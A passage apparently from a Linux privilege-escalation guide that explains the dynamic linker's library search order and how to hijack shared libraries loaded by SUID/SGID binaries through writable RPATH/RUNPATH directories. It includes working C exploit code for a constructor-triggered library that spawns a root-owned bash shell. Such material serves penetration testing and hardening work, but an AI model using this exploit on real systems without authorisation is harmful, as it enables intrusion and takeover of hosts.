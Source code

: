   2. Any directories specified by the `-rpath` option (only effective at
     runtime). This option sets the `RPATH` / `DT_RPATH ` or `RUNPATH` /
     `DT_RUNPATH ` attribute of a binary.

  3. From the content of the `LD_RUN_PATH` environment variable (if neither
    `-rpath-link` nor `-rpath` options were used at compile time).

  4. From the content of the `LD_LIBRARY_PATH` environment variable.

  5. The default directories, normally `/lib` and `/usr/lib`.

  6. The list of directories configured in the `/etc/ld.so.conf` file.

     The directories searched by the dynamic linker within the
     `/etc/ld.so.conf` configuration can be listed (in order) using the
     `ldconfig` utility:

     ```bash
     ldconfig -v 2>/dev/null | grep -v ^$'\t'
     ```

Note that for `SUID` / `SGID` binaries, the `LD_RUN_PATH` and `LD_LIBRARY_PATH`
environment variables cannot be leveraged for privilege escalation, as the
environment variables of the owner of the file are used (instead of the
environment variable of the user executing the binary).

*Library exploit code example.*

The following exploit code can be used to compile a shared library executing
`/bin/bash` as the user or group owner of the `SUID` / `SGID` binary
(retrieved with `geteuid()`) upon being loaded:

```c
// Compile using:
// gcc -o <OUTPUT_LIBRARY>.so -shared -fPIC <CODE_FILE>
#include <stdlib.h>
#include <unistd.h>

static void library_main() __attribute__((constructor));

void library_main() {
  setreuid(geteuid(), geteuid());
  setregid(getegid(), getegid());
  system("/bin/bash");
}
```

*SUID / SGID binary compiled with the RPATH / RUNPATH option.*

As described in the dynamic library search order above, any shared library
stored under the directory specified (at compile time) by the `-rpath` option
will be loaded over libraries from any other locations. If an user has the
rights to write files in a folder specified in the `RPATH` / `RUNPATH` of a
`SUID` / `SGID` binary, the binary could be leveraged for privilege escalation.

The `objdump` utility, among others, can be used to determine if a given binary
has been compiled with the `RPATH` option (`-rpath='<DIRECTORY_PATH>`):
